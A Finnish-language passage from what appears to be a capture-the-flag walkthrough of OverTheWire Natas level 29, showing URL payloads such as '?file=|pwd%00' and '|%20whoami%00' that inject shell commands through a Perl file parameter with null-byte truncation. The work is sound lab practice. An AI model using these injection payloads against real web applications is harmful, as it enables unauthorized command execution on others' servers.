 
**Eteenpäin**
Eli todennäköisesti tämä `|ls%00` antoi vihjeen että putkesta eteenpäin syötettään Linux termistöjä kuten ls , pwd ja jne.

Kokeillaan: `http://natas29.natas.labs.overthewire.org/index.pl?file=|lsl` - tämä ei antanut mitään - mutta testattu kuitenkin 


**pwd** vuoro - `http://natas29.natas.labs.overthewire.org/index.pl?file=|pwd%00` ja toimii.

![alt text](./kuvat-level29-34/natas29-6.png)


Nyt pitäisi saada toi Linux polku sijoitettua tähän URL parametri perään, jotta se ymmärtää sen ja löytääkseen seuraavan levelin salasanansa.

**whoami** komento - `http://natas29.natas.labs.overthewire.org/index.pl?file=|%20whoami%00` - tämä toimi

![alt text](./kuvat-level29-34/natas29-8.png)
